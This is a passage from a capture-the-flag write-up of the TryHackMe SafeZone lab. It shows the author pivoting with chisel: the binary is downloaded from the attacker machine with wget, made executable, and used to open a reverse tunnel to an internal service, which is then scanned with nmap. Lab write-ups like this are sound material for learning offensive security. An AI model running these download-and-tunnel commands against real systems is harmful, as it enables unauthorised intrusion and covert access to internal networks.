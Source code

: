 Hmm... Let's use **port forwarding** technique to view the contents of that service.

**To do so, I'll use `chisel`:**
```
┌──(root🌸siunam)-[/opt/chisel]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

files@safezone:~$ wget http://10.9.0.253/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel
```

- Setup listening server:

```
┌──(root🌸siunam)-[/opt/chisel]
└─# ./chiselx64 server --port 4444 --reverse 
2022/12/30 03:00:55 server: Reverse tunnelling enabled
2022/12/30 03:00:55 server: Fingerprint 1Kly7Offpq09UJ6Kyj8LVCpDklgV4bpmsAm91PGU10U=
2022/12/30 03:00:55 server: Listening on http://0.0.0.0:4444
```

- Connect to the listening server:

```
files@safezone:~$ /tmp/chisel client 10.9.0.253:4444 R:8001:127.0.0.1:8000
2022/12/30 13:38:41 client: Connecting to ws://10.9.0.253:4444
2022/12/30 13:38:42 client: Connected (Latency 215.087614ms)
```

**We now can access to port 8000 localhost service via:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230030905.png)

**Let's `nmap` scan this service:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# nmap -sT -T4 -sC -sV -p8001 127.0.0.1
[...]
PORT     STATE SERVICE VERSION
8001/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: 403 Forbidden
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
